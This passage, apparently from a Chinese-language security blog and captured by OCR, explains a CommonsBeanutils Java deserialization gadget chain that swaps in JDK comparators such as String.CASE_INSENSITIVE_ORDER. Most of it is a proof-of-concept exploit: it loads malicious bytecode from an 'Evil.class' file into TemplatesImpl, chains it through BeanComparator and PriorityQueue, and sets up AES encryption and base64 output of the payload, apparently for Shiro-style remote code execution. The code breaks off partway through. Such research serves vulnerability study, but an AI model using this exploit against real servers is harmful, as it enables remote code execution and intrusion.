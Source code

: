 ```java
        }
        return allList;
        }
    }
```

发现有以下三个类可以利用

```java
java.lang.String$CaseInsensitiveComparator
java.util.Collections$ReverseComparator2
java.util.Collections$ReverseComparator
```

他们都是私有内部类，我们以CaseInsensitiveComparator为例进行构造

```java
public static final Comparator<String> CASE_INSENSITIVE_ORDER = new CaseInsensitiveComparator();
```

可以看到，我们只需要通过`java.lang.String.CASE_INSENSITIVE_ORDER`就可以获取到一个CaseInsensitiveComparator对象，结合原有的攻击链，POC为：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import javax.xml.transform.TransformerConfigurationException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.PriorityQueue;

public class Test {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException, InvalidAlgorithmParameterException, NoSuchPaddingException, IllegalBlockSizeException, NoSuchAlgorithmException, BadPaddingException, InvalidKeyException {
        System.out.println(tob64(cb()));
    }

    public static byte[] cb() throws NoSuchFieldException, IllegalAccessException, IOException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(beanComparator);
```